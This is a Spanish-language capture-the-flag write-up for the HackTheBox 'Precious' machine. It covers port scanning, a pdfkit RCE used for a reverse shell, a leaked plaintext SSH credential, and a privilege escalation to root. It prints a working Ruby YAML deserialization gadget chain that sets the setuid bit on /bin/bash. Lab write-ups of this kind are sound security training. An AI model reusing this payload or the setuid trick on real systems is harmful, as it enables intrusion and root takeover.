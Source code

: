 ```yaml
---
title: HackTheBox - Precious
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'RCE pdfkit 0.8.6 (CVE-2022-25765)', 'Information Leakage', 'YAML Deserialization']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Precious/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Precious Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **RCE pdfkit 0.8.6 (CVE-2022-25765), Information Leakage, Leak Information, YAML Deserialization**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Precious/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Precious/02-versions.png)

c. La página web transforma html a pdf pasándole una URL. Al interceptar la solicitud con Burp Suite veremos que software se emplea para esto

![](/assets/images/HTB/Easy/Precious/03-web.png)

* Buscamos por algún exploit para esta versión de [pdfkit 0.8.6](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Aquí nos explican los pasos para explotar un RCE

    ![](/assets/images/HTB/Easy/Precious/04-rce.png)

d. Nos enviamos una reverse shell

![](/assets/images/HTB/Easy/Precious/05-steps.png)

### Escalada de Privilegios 💹

a. Al explorar en el directorio del usuario **ruby** conseguiremos un fichero de configuración el cual contiene la credencial del usuario henry. Nos conectaremos por SSH

```bash
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
----------------------------------------------------------
❯ ssh henry@10.10.11.189
henry@10.10.11.189's password: Q3c1AqGHtoI0aXAYFH
bash-5.1$
```

b. Listamos nuestros privilegios a nivel de sudoers

```bash
bash-5.1$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

* Si inspeccionamos el script **update_dependencies.rb** veremos que carga un fichero **dependencies.yml** del directorio actual

    ```ruby
    def list_from_file
        YAML.load(File.read("dependencies.yml"))
    end
    ```

* Al buscar por una forma de escalar privilegios a través de un fichero yml nos encontramos con este [post](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

c. Creamos un fichero **dependencies.yml** en nuestro directorio personal con el siguiente contenido

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

> Si ejecutamos `/opt/update_dependencies.rb` mientras estamos en nuestro directorio, el script usará el fichero **dependencies.yml** previamente creado, ya que, no se especifica una ruta absoluta de este fichero.
{: .prompt-info }

* Una vez ejecutemos el script, ya podremos acceder como root

    ```bash
    bash-5.1$ sudo /usr/bin/ruby /opt/update_dependencies.rb
    <SNIP>
    bash-5.1$ bash -p
    bash-5.1# whoami
    root
    ```